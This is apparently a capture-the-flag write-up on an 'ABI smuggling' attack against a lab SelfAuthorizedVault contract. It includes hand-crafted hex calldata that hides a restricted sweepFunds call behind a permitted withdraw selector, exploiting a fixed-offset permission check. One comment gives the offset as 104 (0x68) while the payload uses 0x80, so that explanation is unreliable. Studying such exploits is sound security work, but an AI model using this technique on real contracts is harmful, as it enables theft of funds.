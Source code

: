 ### Notes on test setup

- 3 accounts: `deployer`, `player`, `recovery`
- **vault**: the `SelfAuthorizedVault` contract is deployed

- Permissions:
    - **player** can call the `withdraw (0xd9caed12)` function on the vault
    - **deployer** can call the `sweepFunds (0x85fb709d)` function on the vault

- **vault** is `initialized`
- **DVT token** are sent to the vault

### Notes on the AuthorizedExecutor::execute function

This method is an `external` `nonReentrant` function. It only allows to execute permissioned actions previously setup via the `setPermissions` method. Hence, I should be able to perform the permissioned actions leveraging this **execute** function.

**Recon**: The `deployer` account can call the `sweepFunc` method.

The execute function signature is as follows:

``` js
function execute(address target, bytes calldata actionData) external nonReentrant returns (bytes memory) 
```

As the deployer, I can use this to call the `sweepFund` in a more "low level way":
- I can wrap the `sweepFunds()` function call into the `actionData` parameter that the `execute` function accepts.

Let's the ABI encode the input parameters that the `sweepFunds` needs:

```js
    const sweepFundsEncodedParams = defaultAbiCoder.encode(
        ["address", "address"], 
        [recovery.address, token.address])
```

This results in having this hex string: `0x0000000000000000000000003c44cdddb6a900fa2b585dd299e03d12fa4293bc0000000000000000000000005fbdb2315678afecb367f032d93f642f64180aa3`

In front of this we can append the `sweepFunds` function **selector**: `0x85fb709d`.

As a final result this long hex string represent a call to the `sweepFunds` function:
`0x85fb709d0000000000000000000000003c44cdddb6a900fa2b585dd299e03d12fa4293bc0000000000000000000000005fbdb2315678afecb367f032d93f642f64180aa3`

So the by calling the execute function with `actionData` set equal to that long hex string, the execute function will call the `sweepFunds` function and send all the funds to a receiver encoded in that long hex string: the `revocery` account.

Hoever, supposing I don't have the `deployer` (admin) permissions, I have to find another way of moving all the funds back to the `recovery` account using my `player` permissions.

### Moving the funds using player permission - the ATTACK

As a player, if I execute the same transaction previously used with the deployer, the contract will revert with `NotAllowed()`. So let's investigate further.

The `execute` function loads the **actionData calladata** as follows:

```js
    bytes4 selector;
    uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins
    assembly {
        selector := calldataload(calldataOffset)
    }
```

This means that the function selector is retrieved at **offset 100**. Let's say I'm a `player` and i want to call the `withdraw` function, this is what the ABI of the call would look like:

```
// 4 byte selector for 'execute'
0x1cff79cd
// + 32-byte padded address (1. param of execute)
000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f0512
// + 32-byte calldata offset (Everything else is 2. param of execute --> actionData)
0000000000000000000000000000000000000000000000000000000000000040 (0x40 = 64 bytes = 128 hex chars = offset points to 129th char = 65th byte = calldata length)
// + 32-byte calldata length
0000000000000000000000000000000000000000000000000000000000000044
// actual calldata, selector is starting at offset 100 from the start of the calldata
**d9caed12**0000000000000000000000003c44cdddb6a900fa2b585dd299e03d12fa4293bc0000000000000000000000005fbdb2315678afe...
```

What happens if I manually set the `actionData` offset to "point" to a malicious `calldata` with a different function selector?? This can be done because the selector that the function uses for checking permissions is read always starting at the 100th byte. Let's see how such an attack would look like:

```
// 4 byte selector for 'execute'
0x1cff79cd
// + 32-byte padded address (1. param of execute)
000000000000000000000000e7f1725e7734ce288f8367e1bb143e90bb3f0512
// + 32-byte calldata offset (Everything else is 2. param of execute --> actionData)
// now let's set the exploit offset. I want this to point to the where the attack calldata is: so to the exploit size.
// If we count from the beginning (first 4 byte excluded) the exploit size starts after the 104th byte.
// So the offset must be 104 decimal = 0x68 hex
0000000000000000000000000000000000000000000000000000000000000080 (points to exploit size)
// + 32-byte calldata length --> this can just be 0s (pad)
0000000000000000000000000000000000000000000000000000000000000000
// actual calldata, selector is starting at offset 100 from the start of the calldata
d9caed1200000000000000000000000000000000000000000000000000000000
// the exploit size
0000000000000000000000000000000000000000000000000000000000000044
// the exploit actual calldata: the sweepFunds abi encoded calldata (which is 136 hex chars = 68 bytes = 0x44)
85fb709d0000000000000000000000003c44cdddb6a900fa2b585dd299e03d12fa4293bc0000000000000000000000005fbdb2315678afecb367f032d93f642f64180aa3
```

The code gets the selector at the `100th byte` position and checks for msg.sender permissions: 
```js
    uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins = 100
    assembly {
        selector := calldataload(calldataOffset)
    }

    if (!permissions[getActionId(selector, msg.sender, target)]) {
        revert NotAllowed();
    }
```

With the above abi we are leveraging the permissions of the `d9caed12` selector, then the `sweepFunds` will be actually called.

